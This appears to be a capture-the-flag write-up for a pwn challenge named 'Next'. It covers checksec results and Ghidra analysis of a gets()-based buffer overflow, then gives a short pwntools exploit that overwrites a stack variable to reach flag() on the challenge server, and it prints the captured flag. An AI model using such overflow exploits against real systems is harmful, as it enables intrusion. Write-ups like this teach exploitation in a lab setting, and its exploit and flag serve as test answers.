 # 🧩 Next – Pwn Challenge Writeup

## 📌 Challenge Name
**Next**
    ![Challenge Overview](assets/Overview.png)
---

## 📷 Section 1: Binary Security Check (Checksec)

![Checksec Screenshot](assets/Checksec.png) 

### 🔒 Security Analysis (Checksec Output)

- **RELRO**: Partial – GOT is not fully protected, allowing GOT overwrite attacks.
- **Stack Canary**: ❌ Missing – No protection against stack buffer overflows.
- **NX**: ❌ Disabled – The stack is executable, making shellcode injection possible.
- **PIE**: ✅ Enabled – Code is loaded at random memory addresses.
- **Symbols**: ✅ Present – Not stripped, helpful for reverse engineering.

---

## 🧠 Section 2: Ghidra Static Analysis

![Ghidra Screenshot](assets/Ghidra.png)

### 🔍 Key Observations (from Ghidra)

- The program reads input using `gets()`, making it vulnerable to buffer overflows.
- A 72-byte buffer is followed by a 64-bit variable `local_10`.
- The value of `local_10` is compared to `0x3839736f7265` (ASCII: `"eros98"`).
- If matched, the function `flag()` is called.

---

## 🎯 Exploitation

Overflow the buffer and overwrite `local_10` with the desired value:

````
from pwn import *

payload = b"A" * 72 + p64(0x3839736f7265)

# Remote exploit
p = remote("airange.aucssociety.com", 47331)
p.sendlineafter("destination?", payload)
p.interactive()
````

---

## 🏁 Flag

```
flag{Y0U_4r3_G00D_4T_bU55s}
```

---

## 👤 Author

### ~ **Basim Mehdi**  
### ~ *Team: 0xFAILURES*